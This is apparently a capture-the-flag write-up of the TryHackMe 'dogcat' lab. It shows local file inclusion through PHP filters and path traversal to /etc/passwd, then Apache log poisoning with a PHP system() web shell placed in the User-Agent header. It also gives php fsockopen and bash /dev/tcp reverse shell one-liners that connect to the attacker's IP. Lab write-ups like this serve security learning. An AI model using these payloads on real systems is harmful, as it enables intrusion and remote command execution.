dogcat
THM Dogcat
Rustscan

Nmap

Gobuster
Seeing the gobuster result. We try to access the flag.php file through LFI but it doesn't work normally.
It appears that this will only work if either “cat” or “dog” is part of the URL. Including dogs in the request and using path traversal after that to access the flag, with PHP filters:
We check the following to bypass the PHP Filters
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion

We got the code from above github page. Our code will be.
http://10.10.69.53/?view=php://filter/convert.base64-encode/resource=dog

echo PGltZyBzcmM9ImRvZ3MvPD9waHAgZWNobyByYW5kKDEsIDEwKTsgPz4uanBnIiAvPg0K | base64 -d

Above looks like contents of dog.php
Or
http://10.10.69.53/?view=php://filter/convert.base64-encode/resource=cat

echo PGltZyBzcmM9ImNhdHMvPD9waHAgZWNobyByYW5kKDEsIDEwKTsgPz4uanBnIiAvPg0K | base64 -d

Above looks like contents of cat.php
To get to the index file, we use the following
(Note: Can use either dog or cat)

We got a long enocded text, so we go to view source.

Upon decoding the above we find the code for index.php

["ext"] extention is used
To escape the extension, we will add a parameter as shown in the image below. Now when we try to read the /etc/passwd file, it is directly accessible. We have successfully exploited the Local File Inclusion.
http://10.10.69.53/?view=cat/../../../../etc/passwd&ext=
We use the &ext= to bypass the filters.
Directory Structure Guessed
/var/www/html/cat.php
so we go with below
cat/../../../../etc/passwd

We successfully found LFI in the website.
Source code is below.

Foothold
Next we will use “LFI” to exploit “Log Poisoning”
We check if access.log file can be used in LFI.
http://10.10.69.53/?view=cat/../../../../var/log/apache2/access.log&ext=

Viewing its source at the bottom area. (Last access logs) We find our previous code recorded in log.
Intresting part is, the User-Agent part of the http request is copied to apache's access.log file. We will try to inject php code to accept a command from a variable.

We use Burpsuite to see the details and change our http request.

We then edit the User-Agent with a custom text say “Bazinga” and send the following http request.

We check the html output and we find our string is refelcted on the page.

We use the same are to enter a php code that will run system commands from a GET varibale.
<?php system($_GET['c']); ?>

We send the updated request. We` can use “c” to send system commands using the &ext=&c=****
As the log file is used. This command will be valid every time we open the log page.
http://10.10.65.191/?view=cat/../../../../var/log/apache2/access.log&ext=&c=whoami

We successfully get the output of whoami command at the place of our code.
Important Note: Once the output is printed on the log file. We need to add the php code again in next request. Thus we use burpsuite to change both the User-Agent and URL
Now we can create a bash reverse shell and connect to the target machine using netcat.

Note: The above did not work, we need to use a different payload or use full path bash with -c option
php -r '$sock=fsockopen("10.8.6.75", 8888);exec("/bin/bash -i <&3 >&3 2>&3");'

10.10.245.74/?view=dog/../../../../var/log/apache2/access.log&ext=&c=php -r '$sock=fsockopen("10.11.72.31",1337);exec("/bin/bash -i <&3 >&3 2>&3");'
But we will use the URL encoded one after c=


OR
We can use bash code as follows.
/bin/bash -c 'bash -i >& /dev/tcp/10.11.72.31/9999 0>&1'

10.10.245.74/?view=dog/../../../../var/log/apache2/access.log&ext=&c=/bin/bash -c 'bash -i >& /dev/tcp/10.11.72.31/9999 0>&1'
But we will use the URL encoded one after c=




Privilege Escalation

Breaking out of Container

